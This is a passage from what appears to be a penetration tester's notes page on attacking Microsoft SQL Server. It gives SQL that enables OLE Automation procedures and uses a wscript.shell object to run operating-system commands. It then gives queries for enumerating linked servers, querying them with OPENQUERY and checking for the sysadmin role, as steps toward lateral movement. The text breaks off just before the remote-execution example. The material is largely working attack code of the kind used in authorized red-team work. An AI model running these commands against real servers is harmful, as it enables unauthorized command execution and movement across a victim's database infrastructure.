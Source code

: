### <mark style="color:yellow;">Command Execution via OLE Automation Stored Procedure</mark>

By default this is disabled but it can be enabled

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;

EXEC sp_configure 'ole automation procedures', 1;
RECONFIGURE;
```

OLE Automation allows to use other languages like VBS from a SQL query. Create a wscript.shell and execute a command.

```sql
DECLARE @objShell INT;
DECLARE @output varchar(8000);

EXEC @output = sp_OACreate 'wscript.shell', @objShell Output;
EXEC sp_OAMethod @objShell, 'run', NULL, 'cmd.exe /c "whoami > C:\Windows\Tasks\tmp.txt"';
```

## Lateral Movement

In `MSSQL Server`, there is the concept of [linked servers](https://learn.microsoft.com/en-us/sql/relational-databases/linked-servers/create-linked-servers-sql-server-database-engine?view=sql-server-ver16). By linking server A to B its possible to execute queries on server B from server A.&#x20;

* OPENQUERY: Run query on linked server
* EXECUTE AT: Run query on linked server
* OPENROWSET: Connects and runs a query on server

### <mark style="color:yellow;">Enumerate Linked Servers</mark>

```sql
EXEC sp_linkedservers;
```

Use OPENQUERY to return database

```sql
SELECT * FROM OPENQUERY(SQL02, 'SELECT name, database_id, create_date FROM sys.databases');
```

### <mark style="color:yellow;">Remote Command Execution via EXECUTE AT</mark>

Check permissions, we need sysadmin role.&#x20;

```sql
SELECT * FROM OPENQUERY(SQL02, 'SELECT IS_SRVROLEMEMBER(''sysadmin'')');
```

Execute a command remotely using linked server
